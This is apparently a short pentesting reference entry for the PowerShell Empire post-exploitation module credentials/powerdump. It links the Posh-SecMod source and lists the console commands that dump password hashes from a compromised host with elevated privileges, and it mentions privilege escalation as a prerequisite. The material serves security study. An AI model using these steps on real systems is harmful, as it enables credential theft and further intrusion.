

powerdump*
PREREQUISITE: high-integrity (elevated privileges) agent session. If we do not have that we need to run a privesc module
All the modules'name that end with an asterisk require a high-integrity Empire agent

Github: https://github.com/darkoperator/Posh-SecMod/blob/master/PostExploitation/PostExploitation.psm1
Dumps hashes from the local system using Posh-SecMod's Invoke-PowerDump
(Empire)> usemodule credentials/powerdump*
(Empire)> info
(Empire)> execute
(Empire)>
(Empire)> info
(Empire)> execute
(Empire)>